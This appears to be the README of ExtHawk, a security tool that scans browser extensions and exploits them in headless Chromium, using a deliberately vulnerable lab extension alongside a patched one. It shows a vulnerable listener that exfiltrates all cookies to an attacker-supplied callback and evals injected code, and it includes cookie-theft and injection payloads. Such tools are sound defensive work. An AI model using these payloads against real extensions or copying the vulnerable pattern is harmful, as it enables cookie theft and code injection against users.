




# ExtHawk

<p align="center">
  
  
  
  
  <a href="https://github.com/DeathShotXD/ExtHawk/actions/workflows/ci.yml"></a>
  <a href="LICENSE"></a>
  <a href="https://github.com/DeathShotXD/ExtHawk/stargazers"></a>
</p>

Browser extensions are the most privileged code users never audit.

ExtHawk is a single-file attack-surface scanner and exploit harness for them.
It reads an unpacked extension or a `.crx`, maps the manifest and the code,
computes the extension id, and — when you need proof — loads the extension in
headless Chromium and drives it from a real web page.

<p align="center">
  
</p>

<br>

## The 30-second version

```bash
python3 exthawk.py scan -e lab/extension-vuln
python3 exthawk.py exploit -e lab/extension-vuln --payloads lab/payloads.json
./lab/run.sh
```

The scan grades the vulnerable lab **CRITICAL / 100** and names the chain:
`externally_connectable` → `onMessageExternal` → cookies, scripting, and `eval`.
The exploit confirms **5/5** payloads in Chrome for Testing. The A/B runner then
shows the patched build at **CLEAN / 0** and **0/5**.

<p align="center">
  
</p>

The GIF is rendered from the captured output of a real run against the included
lab, not from a mock. `scripts/make_demo.py` holds the exact lines.

<p align="center">
  
</p>

## What is ExtHawk?

Most extension security advice stops at "check your permissions." That is not
where the bugs are. The bugs are in the bridge between a web page and the
privileged service worker: `externally_connectable`, `onMessageExternal`, a
content script that trusts `postMessage`, or a web-accessible page that writes
`location.hash` into `innerHTML`.

ExtHawk looks at both sides of that bridge.

| Layer | What it does |
| --- | --- |
| **Manifest** | Permissions, host access, `externally_connectable`, content-script scope, web-accessible resources, CSP, update URL, MV2. |
| **Code** | External message handlers, `eval` / `new Function`, HTML sinks, wildcard `postMessage`, dangerous `chrome.*` APIs, remote scripts, and embedded secrets. |
| **Correlation** | Same-file reachability: external handler → cookies / scripting / native / debugger / eval / HTML, `postMessage` → `innerHTML`, web-accessible HTML → `innerHTML`, cookies + `<all_urls>`. |
| **Artifacts** | Extension id from the manifest key or CRX header, CRX2/CRX3 parsing, safe archive extraction, JSON reports, standalone PoCs, and a real Chromium harness. |

The point is not to produce a long list of scary permissions. The point is to
find the short path from an untrusted page to a privileged API, then prove it.

## Why the bridge matters

A Manifest V3 extension can expose a message endpoint to web pages:

```json
{
  "externally_connectable": {
    "matches": ["http://127.0.0.1/*"]
  }
}
```

Any page matching that pattern can call the extension:

```js
chrome.runtime.sendMessage(EXT_ID, {
  action: "collect",
  callback: "http://127.0.0.1:8000/cb"
});
```

If the service worker trusts the message, the page now drives the extension's
permissions:

```js
chrome.runtime.onMessageExternal.addListener((msg, sender, sendResponse) => {
  if (msg.action === "collect") {
    chrome.cookies.getAll({}).then((cookies) => {
      fetch(msg.callback + "?cookies=" + encodeURIComponent(btoa(JSON.stringify(cookies))));
      sendResponse({ ok: true, count: cookies.length });
    });
  }
  if (msg.action === "inject") {
    chrome.scripting.executeScript({
      target: { tabId: sender.tab.id },
      world: "MAIN",
      func: (code) => eval(code),
      args: [msg.code]
    });
  }
});
```

There is no memory corruption here. There is a missing `sender.origin` check,
a `cookies` permission, a `scripting` permission, and a page on the guest list.
That is enough for cookie theft, page injection, and SSRF from the browser's
privileged context.

<p align="center">
  
</p>

## The lab is an A/B pair

The repository ships two builds of **HawkNotes**, a small notes extension:

| Build | What changed | Static | Dynamic |
| --- | --- | --- | --- |
| `lab/extension-vuln` | `externally_connectable`, `onMessageExternal`, cookies, scripting, `eval`, `postMessage` → `innerHTML`, `location.hash` → `innerHTML` | **CRITICAL / 100** | **5/5 confirmed** |
| `lab/extension-patched` | No external bridge, no cookies/scripting/host access, `textContent`, explicit strict CSP | **CLEAN / 0** | **0/5 confirmed** |

Both builds use the same public key, so both have the same extension id:

```text
nmfikiipecbppmhonpohidnkihhfkhog
```

That is the honest A/B: same id, same browser, same payloads, different code.

<p align="center">
  
</p>

Run it yourself:

```bash
# Chromium or Chrome for Testing, not branded Chrome
export CHROME_BIN=/path/to/chrome
./lab/run.sh
```

The runner asserts the expected result and exits non-zero if either side
changes. It is a regression test for the exploit chain, not a demo that only
prints pretty output.

## Install

ExtHawk is one Python file with no third-party packages.

```bash
git clone https://github.com/DeathShotXD/ExtHawk.git
cd ExtHawk
python3 exthawk.py info
```

Requirements:

- Python 3.9 or newer.
- For dynamic mode: Chromium or Chrome for Testing with `--load-extension`
  support. Branded Google Chrome may ignore `--load-extension` depending on
  build and policy; the tool warns when it detects that case.
- Linux is the tested platform. macOS and Windows should work with the same
  Chromium flags, but the included lab runner is a bash script.

Chrome for Testing on Linux:

```bash
VERSION=$(curl -s https://googlechromelabs.github.io/chrome-for-testing/last-known-good-versions-with-downloads.json \
  | python3 -c 'import json,sys; print(json.load(sys.stdin)["channels"]["Stable"]["version"])')
curl -sL -o chrome.zip \
  "https://storage.googleapis.com/chrome-for-testing-public/${VERSION}/linux64/chrome-linux64.zip"
unzip -q chrome.zip
export CHROME_BIN="$PWD/chrome-linux64/chrome"
```

## Commands

### `scan`

Static analysis. No browser, no network.

```bash
python3 exthawk.py scan -e ./extension
python3 exthawk.py scan -e ./extension --json
python3 exthawk.py scan -e ./extension --min-severity high
python3 exthawk.py scan -e ./extension --fail-on critical
```

`--fail-on` exits `1` when a finding at or above the chosen severity exists.
That is the CI gate:

```yaml
- name: ExtHawk gate
  run: python3 exthawk.py scan -e ./extension --fail-on high
```

### `poc`

Write a standalone PoC directory. It includes the attacker page, the payloads,
a copied extension, and a local runner.

```bash
python3 exthawk.py poc -e ./extension --payloads lab/payloads.json --out exthawk-poc
cd exthawk-poc
./run.sh
```

The runner serves the page on a free local port, rewrites the callback, loads
the copied extension, and prints the dumped DOM. Set `CHROME_BIN` if Chromium
is not on `PATH`.

Use `--origin` when you want the page to call an external listener instead of
the bundled local one:

```bash
python3 exthawk.py poc -e ./extension --origin https://your-listener.example
```

### `exploit`

Run payloads against the extension in headless Chromium and report what was
actually confirmed.

```bash
python3 exthawk.py exploit -e ./extension --payloads lab/payloads.json
python3 exthawk.py exploit -e ./extension --payloads lab/payloads.json --json
python3 exthawk.py exploit -e ./extension --payloads lab/payloads.json --save-dom /tmp/dom.html
```

The harness:

1. Binds a callback server on `127.0.0.1:0`.
2. Serves an attacker page that sends each payload.
3. Launches Chromium with `--load-extension` and a fresh profile.
4. Collects callback hits and the dumped DOM.
5. Confirms a payload only on a real callback or a live DOM marker.

`--keep` keeps the temporary Chromium profile. `--verbose` prints Chromium
stderr. `--timeout` is a real-process timeout, minimum 5 seconds.

### `info`

```bash
python3 exthawk.py info
```

## Payload format

`lab/payloads.json` is the reference. The schema is small:

```json
{
  "external": [
    {
      "name": "cookie-theft",
      "message": { "action": "collect", "callback": "{{CALLBACK}}" }
    },
    {
      "name": "page-injection",
      "message": {
        "action": "inject",
        "code": "document.getElementById('exthawk-inject').textContent='EXTHAWK_INJECT'"
      }
    }
  ],
  "postMessage": [
    {
      "name": "dom-xss",
      "data": {
        "type": "hawk-render",
        "html": ""
      }
    }
  ]
}
```

Placeholders:

- `{{CALLBACK}}` becomes the harness callback URL.
- `{{EXT_ID}}` becomes the computed extension id.

Built-in confirmations:

- `cookie-theft` checks for a `cookies=` callback and decodes the cookie names
  without printing values.
- `ssrf` checks for the `ssrf=1` callback.
- `page-injection` checks the live `#exthawk-inject` marker.
- `dom-xss` checks the live `#exthawk-dom` marker.
- `ping` checks for a response containing `version`.
- Any payload can define `marker`; the marker must appear in the live log or
  title, not in the payload source.

That last distinction matters. A naive scanner greps the dumped DOM for
`EXTHAWK_INJECT` and gets a false positive because the payload string itself is
in the page source. ExtHawk checks the marker element's content, so only code
that actually ran can set it.

## Static rules

The rule table lives at the top of `exthawk.py`; the README does not try to
duplicate every regex. The important classes are:

| Class | Examples | Typical severity |
| --- | --- | --- |
| External bridge | `onMessageExternal`, `onConnectExternal`, `externally_connectable` | high |
| Privileged APIs | `chrome.cookies`, `chrome.scripting`, `chrome.debugger`, `nativeMessaging`, `chrome.proxy` | high |
| Code sinks | `eval`, `new Function`, `innerHTML`, `outerHTML`, `document.write` | high / medium |
| Messaging sinks | wildcard `postMessage`, `message` listeners | medium |
| Manifest scope | `<all_urls>`, broad `content_scripts`, web-accessible HTML, weak CSP, HTTP update URL | high / medium / low |
| Secrets | AWS, Google, GitHub, Slack, Stripe, JWT, private key blocks | high / medium |
| Remote code | remote `<script src>`, remote `importScripts` | high |

Correlations are deliberately conservative: the dangerous sink must be in the
same file as the external handler, and a web-accessible HTML sink must be in a
file that is actually listed in `web_accessible_resources`. This avoids the
usual "critical because two unrelated files both exist" noise.

<p align="center">
  
</p>

## Extension ids and CRX parsing

Chrome derives an extension id from the SHA-256 of the DER-encoded public key:

```text
digest = SHA-256(public_key_der)[:16]
id     = each nibble mapped to a-p
```

ExtHawk computes the id from:

- the `key` field in `manifest.json`, or
- the public key in a CRX2 header, or
- the first public key in a CRX3 `CrxFileHeader` protobuf, or
- an explicit `--id` when the package has no key.

That id is what `chrome.runtime.sendMessage(EXT_ID, ...)` needs. It is also why
the lab keeps the same `key` in both builds: the A/B test should not accidentally
test two different extensions.

CRX and ZIP extraction is bounded and path-checked. A package with `../` entries,
absolute paths, too many entries, or a decompressed size over the cap is
rejected before anything is written outside the temporary directory.

## Tests and CI

```bash
python3 -m unittest discover -s tests -v
```

The suite has 23 tests:

- extension id from DER and manifest key,
- CRX2 and CRX3 parsing,
- ZIP path-traversal rejection,
- vulnerable and patched static analysis,
- correlation attribution,
- JS-safe payload embedding,
- live-marker evaluation and the payload-source false-positive case,
- CLI JSON output and `--fail-on` gates,
- standalone PoC generation,
- real Chromium exploit on the vulnerable lab (5/5),
- real Chromium non-exploit on the patched lab (0/5).

Set `EXTHAWK_SKIP_DYNAMIC=1` to skip the Chromium tests. The GitHub Actions
workflow runs static tests on Python 3.9–3.13 and the dynamic A/B on Python 3.12
with Chrome for Testing.

## Limits

ExtHawk is a focused tool, not a browser-extension security oracle.

- **Static analysis is heuristic.** It finds patterns and same-file
  correlations. It does not build a full data-flow graph, evaluate JavaScript,
  or prove that a message reaches a sink.
- **Dynamic mode is Chromium-specific.** It uses `--load-extension` and
  `--dump-dom`. Firefox, Safari, and Edge extension models differ.
- **The lab is synthetic.** HawkNotes is written for this repository. It is not
  a real vendor extension and the reported grades are not a statement about any
  product.
- **The harness is not a stealth tool.** It launches a fresh headless browser
  with a temporary profile and a local callback server. It does not bypass the
  Chrome Web Store, install prompts, enterprise policy, or a user's existing
  profile.
- **Payloads are user-supplied.** The built-in payloads are probes. A real
  engagement needs target-specific message shapes, which is exactly why the
  payload file is separate from the tool.
- **Secrets are masked, not removed.** The scanner reads package contents. Treat
  reports and dumps as sensitive.
- **A clean scan is not a clean bill of health.** It means these rules did not
  fire. Review the code, the review boundary, and the update path separately.

## Authorized use

Use ExtHawk only on extensions you own or have explicit written permission to
test. Do not use it against third-party extensions, stores, or users without
authorization. The lab is included so you can validate the tool without touching
anyone else's software.

See [SECURITY.md](SECURITY.md) for the vulnerability-reporting policy and the
scope boundary.

## Project layout

```text
exthawk.py                 the tool (stdlib only)
lab/
  extension-vuln/          HawkNotes 1.0.0, intentionally exploitable
  extension-patched/       HawkNotes 1.0.1, same id, patched
  payloads.json            the exact payloads used in the A/B run
  public-key.b64           public key that fixes the lab extension id
  run.sh                   A/B regression runner
tests/
  test_core.py             parsing, analysis, payload, and safety tests
  test_integration.py      real Chromium exploit and CLI tests
assets/                    hero, flow, lab, surface, divider, demo GIF
scripts/make_demo.py       renders the demo GIF from real output
.github/workflows/         static matrix + dynamic Chrome for Testing job
```

## License

MIT. See [LICENSE](LICENSE).
